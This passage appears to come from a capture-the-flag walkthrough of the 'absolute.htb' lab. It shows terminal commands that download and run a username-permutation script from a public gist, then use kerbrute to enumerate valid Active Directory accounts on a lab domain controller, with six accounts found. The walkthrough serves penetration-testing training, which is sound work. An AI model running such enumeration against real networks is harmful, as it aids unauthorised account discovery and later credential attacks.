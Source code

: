 





```bash
❯ wget https://gist.githubusercontent.com/superkojiman/11076951/raw/74f3de7740acb197ecfa8340d07d3926a95e5d46/namemash.py
--2025-01-22 02:03:41--  https://gist.githubusercontent.com/superkojiman/11076951/raw/74f3de7740acb197ecfa8340d07d3926a95e5d46/namemash.py
Resolviendo gist.githubusercontent.com (gist.githubusercontent.com)... 185.199.108.133, 185.199.109.133, 185.199.110.133, ...
Conectando con gist.githubusercontent.com (gist.githubusercontent.com)[185.199.108.133]:443... conectado.
Petición HTTP enviada, esperando respuesta... 200 OK
Longitud: 2086 (2,0K) [text/plain]
Grabando a: «namemash.py»

namemash.py                                               100%[===================================================================================================================================>]   2,04K  --.-KB/s    en 0s      

2025-01-22 02:03:41 (36,7 MB/s) - «namemash.py» guardado [2086/2086]

❯ chmod +x namemash.py

❯ python3 namemash.py employees.txt > possible_users.txt


❯ cat possible_users.txt
jamesroberts
robertsjames
james.roberts
roberts.james
robertsj
...[snip]...
```



```bash
❯ kerbrute userenum --dc 10.10.11.181 -d absolute.htb possible_users.txt

    __             __               __     
   / /_____  _____/ /_  _______  __/ /____ 
  / //_/ _ \/ ___/ __ \/ ___/ / / / __/ _ \
 / ,< /  __/ /  / /_/ / /  / /_/ / /_/  __/
/_/|_|\___/_/  /_.___/_/   \__,_/\__/\___/                                        

Version: v1.0.3 (9dad6e1) - 01/22/25 - Ronnie Flathers @ropnop

2025/01/22 02:04:47 >  Using KDC(s):
2025/01/22 02:04:47 >  	10.10.11.181:88

2025/01/22 02:04:47 >  [+] VALID USERNAME:	j.roberts@absolute.htb
2025/01/22 02:04:47 >  [+] VALID USERNAME:	m.chaffrey@absolute.htb
2025/01/22 02:04:47 >  [+] VALID USERNAME:	s.osvald@absolute.htb
2025/01/22 02:04:47 >  [+] VALID USERNAME:	d.klay@absolute.htb
2025/01/22 02:04:47 >  [+] VALID USERNAME:	j.robinson@absolute.htb
2025/01/22 02:04:47 >  [+] VALID USERNAME:	n.smith@absolute.htb
2025/01/22 02:04:47 >  Done! Tested 66 usernames (6 valid) in 0.411 seconds
```
